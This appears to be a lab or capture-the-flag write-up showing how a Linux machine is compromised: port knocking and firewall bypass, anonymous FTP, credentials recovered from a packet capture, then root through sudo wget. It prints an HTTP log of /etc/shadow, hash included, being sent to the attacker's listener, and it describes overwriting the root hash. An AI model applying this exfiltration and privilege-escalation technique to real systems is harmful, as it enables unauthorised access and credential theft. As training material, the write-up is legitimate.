 ## Description
 The purpose of this lab is to learn how to perform network packet analysis in order to get more intel about the hidden network infrastructure, detect misconfigurations, and most importantly, how you can make use of this intel to get access to systems and escalate your privileges. 
## Enumeration
 We started by scanning using `nmap`.
 nmap result:
 ```bash
 PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4f:d3:06:c9:29:81:07:68:3a:c1:2b:49:12:39:c6:19 (RSA)
|   256 f8:fe:33:8d:d9:d5:97:3b:14:08:18:10:4f:3a:19:5c (ECDSA)
|_  256 c2:d5:c2:60:62:0d:cd:a9:83:01:92:b6:dd:be:d6:a2 (ED25519)
80/tcp open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Port 21 filtered means that the port is being blocked by a firewall.
###Exploiting
Using `knock` we can allow connection to port 22. 
```knock works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.```
after that, we can use firewall-bypass script in nmap.

	nmap --script firewall-bypass [IP]
nmap result after bypassing the firewall:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.16.4.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0            5930 Aug 28  2019 login.pcap
```
We can log in into FTP anonymously,we found a file named `login.pcap` we got it using `get`.
Using strings we can find any readable content in the file.
We can see a HTTP request using POST method,which is used to submit data to be processed by the resource identified by the URL.
The body of the request contains the data being sent to the server, in this case the username and password, encoded as `username=kabayla&password=K%40b%40ylA%21`.
So the decoded password is : `K@b@ylA!`
We can easily login using `ssh` with this credentials.
We can use `sudo -l` to list the user's sudo privileges.
So our user `kabayla` can run `/usr/bin/wget` as root without password.
Using `wget` we can post some files to our machine using `--post-file` option.
Starting our listener for port 80 we can get the files that we post from `wget`.
Doing this trick with /etc/shadow can help us view the password hash. We can crack it or overwrite it.
We got the POST request:
```bash
POST / HTTP/1.1
User-Agent: Wget/1.19.4 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 172.16.1.203
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 1021

root:*:18099:0:99999:7:::
daemon:*:18099:0:99999:7:::
bin:*:18099:0:99999:7:::
sys:*:18099:0:99999:7:::
sync:*:18099:0:99999:7:::
games:*:18099:0:99999:7:::
man:*:18099:0:99999:7:::
lp:*:18099:0:99999:7:::
mail:*:18099:0:99999:7:::
news:*:18099:0:99999:7:::
uucp:*:18099:0:99999:7:::
proxy:*:18099:0:99999:7:::
www-data:*:18099:0:99999:7:::
backup:*:18099:0:99999:7:::
list:*:18099:0:99999:7:::
irc:*:18099:0:99999:7:::
gnats:*:18099:0:99999:7:::
nobody:*:18099:0:99999:7:::
systemd-network:*:18099:0:99999:7:::
systemd-resolve:*:18099:0:99999:7:::
syslog:*:18099:0:99999:7:::
messagebus:*:18099:0:99999:7:::
_apt:*:18099:0:99999:7:::
lxd:*:18099:0:99999:7:::
uuidd:*:18099:0:99999:7:::
dnsmasq:*:18099:0:99999:7:::
landscape:*:18099:0:99999:7:::
sshd:*:18099:0:99999:7:::
pollinate:*:18099:0:99999:7:::
ubuntu:!:18136:0:99999:7:::
ftp:*:18136:0:99999:7:::
kabayla:$6$MC5Bf0ny.RmVf$q/j4e1ab8xkBF9rRtILPemtZq3BMrPkjK.mCcb7jraCMBswToeYwTtKDqHgwlmNA6sCZv2rlOQ6hdGqv63Aqb1:18136:0:99999:7:::
Debian-snmp:!:18971:0:99999:7:::
```

We saved the output in a file named `shadow` in our machine, then we update the hash of root account we haah of kabayla account so they have the same hash, and we can easily log in root using the password of kabayala.
after editing the hash we can launch http server, and using `wget` we can replace the machine shadow with our modified shadow.
Then we easily logged in root,and got our flag.
